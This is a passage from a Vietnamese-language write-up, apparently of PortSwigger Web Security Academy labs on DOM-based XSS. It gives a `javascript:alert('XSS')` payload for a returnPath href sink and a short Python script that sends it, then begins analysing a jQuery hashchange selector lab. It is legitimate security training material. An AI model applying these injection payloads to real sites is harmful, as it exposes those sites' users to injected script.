 - đoạn code này sẽ đi tìm một thẻ `<a>` có id=backLink, sau đó nó sẽ thay đổi thuộc tính “href” của thẻ đó bằng giá trị của tham số returnPath trên URL

### Khai thác

- Như vậy ta sẽ send request đến `/feedback?returnPath=javascript:alert('XSS')` để khi click vào Back, hàm alert trong `href="javascript:alert('XSS')"` được thực thi.

và mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a920094037e2c05818c7abe0091002c.web-security-academy.net'

response = requests.get(
    url + "/feedback?returnPath=javascript:alert('XSS')",
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/H1ybDH896.png)

## 6. Lab: DOM XSS in jQuery selector sink using a hashchange event

link: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event

### Đề bài

![image](https://hackmd.io/_uploads/ryOnqrU9p.png)

### Phân tích

- Lab này có chứa lỗ hổng DOM-based XSS ở trang chủ. Nó sử dụng chức năng chọn $() của jQuery để tự động lăn chuột đến một post cho trước, tiêu đề của nó được truyền qua location.hash. Để solve lab này, mình cần phải truyền cho nạn nhân một trang web sao cho nó gọi được chức năng print() ở máy nạn nhân

![image](https://hackmd.io/_uploads/Sy8VjSUc6.png)

- Đọc HTML source code thì có 1 đoạn script JQuery sử dụng selector $() thực hiện auto-scroll người dùng đến bài post có chứa chuỗi hash (lấy từ source location.hash) do người dùng nhập vào với prefix #. Nó sẽ được thực thi khi event hashchange được kích hoạt.
  - `window.location.hash` sẽ trả về phần sau của dấu # của URL, bao gồm cả dấu #. Nên slice(1) là để bỏ dấu # đi và chỉ lấy chuỗi đằng sau dấu `#`
  - Sau đó hàm `decodeURIComponent` sẽ giải mã các ký tự đặc biệt có trong chuỗi vừa lấy
  - Chọn ra thẻ `<h2>` trong phần phần tử section có class là blog-list và chứa nội dung giống với chuỗi ta vừa giải mã
  - Nếu có tồn tại thì tự động lăn đến chỗ tiêu đề thỏa mãn điều kiện trên
